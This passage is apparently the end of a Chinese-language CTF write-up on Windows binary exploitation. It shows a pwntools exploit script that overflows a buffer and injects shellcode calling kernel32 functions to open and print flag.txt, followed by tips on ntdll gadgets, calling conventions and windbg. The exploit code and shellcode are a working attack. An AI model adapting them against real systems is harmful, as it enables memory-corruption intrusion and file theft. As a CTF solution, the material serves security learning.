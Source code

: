    proc.send(buf.ljust(0x100 - 8) + p64(0x4))

    writefile = kernel32 + 0x22770
    createfile = kernel32 + 0x222f0

    shellcode = f'''
        jmp readflag
    flag:
        pop r11
    createfile:
        mov qword ptr [rsp + 0x30], 0
        mov qword ptr [rsp + 0x28], 0x80
        mov qword ptr [rsp + 0x20], 3
        xor r9, r9
        mov r8, 1
        mov rdx, 0x80000000
        mov rcx, r11
        mov rax, {createfile}
        call rax
    readfile:
        mov qword ptr [rsp + 0x20], 0
        lea r9, [rsp + 0x200]
        mov r8, 0x100
        lea rdx, [rsp + 0x100]
        mov rcx, rax
        mov rax, {readfile}
        call rax
    writefile:
        mov qword ptr [rsp + 0x20], 0
        lea r9, [rsp + 0x200]
        mov r8, 0x100
        lea rdx, [rsp + 0x100]
        mov rcx, {stdout}
        mov rax, {writefile}
        call rax
    loop:
        jmp loop
    readflag:
        call flag
    '''
    shellcode = (asm(shellcode) + b'flag.txt\x00').ljust(0x100, b'\x90') 
    proc.send(shellcode)


if __name__ == '__main__':
    context.arch = 'amd64'
    connect = 'nc 192.168.9.1 4869'
    connect = connect.split(' ')
    if len(sys.argv) > 1:
        proc = remote(connect[1], int(connect[2]))
    else:
        proc = process(['filename'], env={'LD_LIBRARY_PATH': './'})
    exploit()
    proc.interactive()
{% endhighlight %}


這次學到了很多 windows 上的 pwn 技巧，其實跟 Linux 類似，但就是工具要花點時間熟悉。最後列些 tips:

* ntdll 內有 pop rdx; pop rcx; pop r8; pop r9; 這樣好用的 gadget
* windows calling convention: func(rcx, rdx, r8, r9, rsp+0x20, ...)
* windbg 反白然後右鍵可以複製，再按一次可以貼上 (?
* windbg F6 快速進 attach 頁面
